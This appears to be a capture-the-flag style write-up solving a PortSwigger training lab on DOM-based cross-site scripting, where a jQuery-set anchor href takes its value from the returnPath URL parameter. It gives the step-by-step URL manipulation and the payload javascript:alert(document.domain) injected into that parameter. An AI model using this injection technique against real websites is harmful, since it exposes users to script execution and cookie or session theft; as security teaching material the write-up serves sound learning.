 # DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`.

## To solve this lab, make the "back" link alert `document.cookie`.

note: =>

## payload for href = javascript:alert(document.domain)

---

### step 1

go to feedback form

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=/feedback
and inspect feedback form
![screenshot](./images/lab5_feedback_form.png)

![screenshot](./images/lab5_feedback_form_ui.png)

change url

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=/feedback
to

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=test
` <a id="backLink" href="test">Back</a>`

now use payload
`javascript:alert(document.domain)`

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=javascript:alert(document.domain)

![screenshot](./images/lab5_form_page_alert_popup.png)
